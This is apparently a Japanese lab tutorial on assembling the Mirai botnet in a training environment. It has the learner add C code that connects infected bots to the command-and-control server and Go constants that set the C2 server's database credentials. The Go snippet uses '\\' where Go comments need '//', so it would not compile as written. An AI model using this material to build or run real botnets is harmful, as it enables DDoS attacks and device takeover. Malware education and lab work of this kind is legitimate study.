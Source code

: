 赤枠で囲んでいるmalwareディレクトリにMiraiのソースコードが保存されています．

![](img/06.png)

## プログラム作成（事前準備）
まずは，マルウェアとC2 Serverのメインプログラムを作成してもらいます．

マルウェアのメインプログラムは，
`/home/ubuntu/enviroment/malware/mirai/bot/main.c`
となっており，C言語で記述されています．

マルウェアに感染したBotはC2 Serverとの接続が必要ですが，その部分のプログラムが抜けているため，作成してもらいます．  
establish_connectionメソッドの最後に，以下のコードを追加してください．
```
    // C2 Serverへの接続確認
    if (resolve_func != NULL)
        resolve_func();
    //C2 Serverへ接続
    pending_connection = TRUE;
    connect(fd_serv, (struct sockaddr *)&srv_addr, sizeof (struct sockaddr_in));
```

C2 Serverのメインプログラムは，
`/home/ubuntu/enviroment/malware/mirai/cnc/main.go`
となっており，Go言語で記述されています．  
C2 Serverは，Go言語とMySQLを組み合わせて構築していきます．  
今回のプログラム作成では，データベースのIPアドレス，ユーザ名，パスワード，使用するテーブルを設定してもらいます．  
10行目以降に，以下のコードを入力してください．
```
const DatabaseAddr string = "127.0.0.1:3306" \\IPアドレス
const DatabaseUser string = "root" \\ユーザ名
const DatabasePass string = "Admin123!" \\パスワード
const DatabaseTable string = "mirai" \\テーブル名
var clientList *ClientList = NewClientList()
var database *Database = NewDatabase(DatabaseAddr, DatabaseUser, DatabasePass, DatabaseTable)
```
